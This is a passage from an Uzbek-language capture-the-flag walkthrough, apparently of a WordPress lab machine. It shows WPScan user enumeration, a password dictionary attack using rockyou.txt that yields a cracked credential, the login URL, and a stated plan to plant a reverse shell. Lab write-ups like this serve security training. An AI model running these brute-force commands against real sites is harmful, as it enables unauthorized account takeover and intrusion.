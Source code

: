 ```
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Jun 18 14:59:21 2025
[+] Requests Done: 681
[+] Cached Requests: 40
[+] Data Sent: 178.226 KB
[+] Data Received: 134.307 KB
[+] Memory used: 249.695 MB
[+] Elapsed time: 00:00:23
```

## Web Hacking | Brute Force

Foydalanuvchilar:

1. hugo
2. c0ldd
3. philip

Bu foydaluvchilardan users.txt tuzamiz va "Dictionary attack"ni boshlaymiz.

Buyruq:

```\
wpscan --url http://10.10.109.191/ --usernames user.txt --passwords /usr/share/payloads/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Natijalar:

```
c0ldd / 9876543210    
```

Kirish uchun link:

```
http://10.10.109.191/wp-login.php
```

Kirgach esa tizim fayllarini o'zgartirib reverse shell joylaymiz.
